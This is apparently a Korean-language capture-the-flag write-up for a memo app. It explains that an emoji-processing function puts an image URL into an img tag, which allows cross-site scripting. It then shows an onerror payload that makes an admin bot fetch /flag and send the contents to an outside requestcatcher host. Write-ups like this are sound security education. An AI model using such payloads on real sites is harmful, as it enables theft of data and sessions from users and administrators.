 
## 익스플로잇

---

### 취약점 분석

- processEmoji(html) 에서 imgUrl을 이미지 태그를 이용해 리턴을 한다.
    
    → imgUrl에 스크립트를 넣으면 XSS가 가능하다!
    

![스크린샷_2025-08-03_오후_11.22.08.png](./image/스크린샷_2025-08-03_오후_11.22.08.png)

![스크린샷_2025-08-03_오후_11.22.32.png](./image/스크린샷_2025-08-03_오후_11.22.32.png)

### 익스플로잇 단계

### 1. XSS를 메모 내용에 입력

![스크린샷_2025-08-04_오전_1.24.16.png](./image/스크린샷_2025-08-04_오전_1.24.16.png)

### 2. bot이 admin 쿠키를 가지고 /flag에 접속

![스크린샷_2025-08-04_오전_12.48.33.png](./image/스크린샷_2025-08-04_오전_12.48.33.png)

### 3. /flag에서 얻은 값을 requestcatcher로 보냄

![스크린샷_2025-08-04_오전_12.45.41.png](./image/스크린샷_2025-08-04_오전_12.45.41.png)

### 익스플로잇 코드

```jsx
:https://hi.com/#" onerror="fetch('/flag').then(r=>r.text()).then(t=>location.href='///hihello.requestcatcher.com/test?'+t)":
```